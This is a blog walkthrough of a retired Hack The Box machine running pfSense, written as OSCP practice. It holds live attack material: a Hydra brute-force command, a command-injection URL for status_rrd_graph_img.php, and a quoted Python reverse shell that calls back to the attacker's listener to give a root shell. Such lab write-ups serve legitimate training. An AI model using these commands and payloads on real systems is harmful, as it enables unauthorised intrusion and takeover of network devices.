





This is the 18th blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSCP. The full list of OSCP like machines compiled by [TJ_Null](https://twitter.com/TJ_Null) can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

Let’s get started!

# Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```
nmap -sC -sV -O -oA initial 10.10.10.60
```

- **-sC**: run default nmap scripts

- **-sV**: detect service version

- **-O**: detect OS

- **-oA**: output all formats and store in file _initial_

We get back the following result showing that 2 ports are open:

- Port 80: running lighttpd 1.4.35 over HTTP

- Port 443: running lighttpd 1.4.35 over HTTPS

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2019-12-28 23:29 EST
Nmap scan report for 10.10.10.60
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to [https://10.10.10.60/](https://10.10.10.60/)
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): OpenBSD 4.X (94%)
OS CPE: cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: OpenBSD 4.0 (94%), OpenBSD 4.3 (91%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 117.20 seconds
```

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```
nmap -sC -sV -p- -oA full 10.10.10.60
```

No other ports are open.

Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

```
nmap -sU -p- -oA udp 10.10.10.60
```

We get back the following result showing no ports are open.

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2019-12-28 23:45 EST
Nmap scan report for 10.10.10.60
Host is up (0.063s latency).
All 65535 scanned ports on 10.10.10.60 are open|filtered

Nmap done: 1 IP address (1 host up) scanned in 4151.01 seconds
```

Before we move on to enumeration, let’s make a mental note about the nmap scan results.

- Port 80 redirects to port 443 so we really only have one port to enumerate.

# Enumeration

Let’s start enumerating port 443. Visit the application using the browser.



We get a pfSense login page. pfSense is a free and open-source firewall and router. Since it is an off the shelf software, the first thing I did is google “pfsense default credentials” and found the following page.


I tried admin/pfsense but that did not work. I also tried common credentials such as admin/admin, pfsense/pfsense, admin/password, etc.

When that didn’t work I had a not-so-bright-idea of brute forcing the credentials using Hydra.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
```

That ended up getting me blocked. In hindsight it makes sense. It wasn’t very smart to brute force the credentials of a firewall.

Next, I ran gobuster to enumerate directories.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [https://10.10.10.60](https://10.10.10.60) -k
```

- **dir: **uses directory/file brute forcing mode.

- **-w:** path to the wordlist.

- **-u: **the target URL or Domain.

- **-k: **skip SSL certificate verification.

I got back the following results.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))
===============================================================
[+] Url:            [https://10.10.10.60](https://10.10.10.60)
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/29 00:03:57 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2019/12/29 00:30:17 Finished
===============================================================
```

I didn’t get anything useful.

Next, run searchsploit to view if the software is associated with any vulnerabilities.

```
searchsploit pfsense
```

We get back the following result.



Nothing really pops out. Most of the exploits require authentication. At this point, I would have given up on this port and started enumerating another port. However, this is the only port we can enumerate for this machine. So we have to find something with gobuster.

Let’s change our gobuster command to include extensions.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [https://10.10.10.60](https://10.10.10.60) -k -x php,txt,conf
```

- **-x: **file extension(s) to search for

I added the extensions txt & conf to look for any configuration files or text files left by system administrators.

We get back the following result.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))
===============================================================
[+] Url:            [https://10.10.10.60](https://10.10.10.60)
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,conf
[+] Timeout:        10s
===============================================================
2019/12/29 09:28:51 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Two files that immediately catch my eye are changelog.txt & system-users.txt.



The change-log.txt file tells us that they’re definitely using a vulnerable version of pfSense. However, they did patch two of the three vulnerabilities that are associated with this software. We have to keep that in mind when exploiting the application.

The system-users.txt file gives us credentials!



The username is **rohit **and the password is the default password **pfsense**. Let’s log into the application.



The version number is 2.1.3. If we go back to our searchsploit results, one exploit does stand out.


# Exploitation

Transfer the exploit to our directory.

```
searchsploit -m 43560.py
```

Let’s look at the[ exploit](https://www.exploit-db.com/exploits/43560) to see what it’s doing.

```
.....

`# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)`

`payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
......`
```

It seems that the status_rrd_graph_img.php script is vulnerable to a command injection. To exploit that, the script is passing a simple python reverse shell (with the configuration parameters we pass as arguments) as a command. It does octal encode the reverse shell command which leads me to believe that there is either some form of filtering being done at the backend or the application crashes on certain characters. To sum up, it’s a very simple script that sends a reverse shell back to our attack machine.

Therefore, let’s up a listener to receive the shell.

```
nc -nlvp 1234
```

Then run the exploit.

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 1234 --username rohit --password pfsense
```

We have a shell!


For this machine, we don’t have to escalate privileges since pfSense is running as root and therefore when we exploited the command injection vulnerability we got a shell with root privileges.

View the user.txt and root.txt flags.


It’s worth noting that this can be easily done manually and is a good exercise for machines that don’t have scripts to automate the exploit.

# Lessons Learned

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Information disclosure. The changelog.txt & system-users.txt files were publicly available to anyone that enumerates the directories on the webserver. Those files gave us information about the vulnerabilities in the web server and credential information for one of the accounts. Administrators should never publicly store sensitive information.

1. Use of default credentials. The user used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.

1. Command injection in the pfSense software that allowed us to send a shell back to our attack server. This could have been avoided if the user had patched the system and installed the most recent version of pfSense.

As mentioned earlier, we didn’t have to escalate privileges for this box since pfSense runs with root privileges and therefore we got a shell with root privileges.

# Conclusion

18 machines down, 29 more to go!

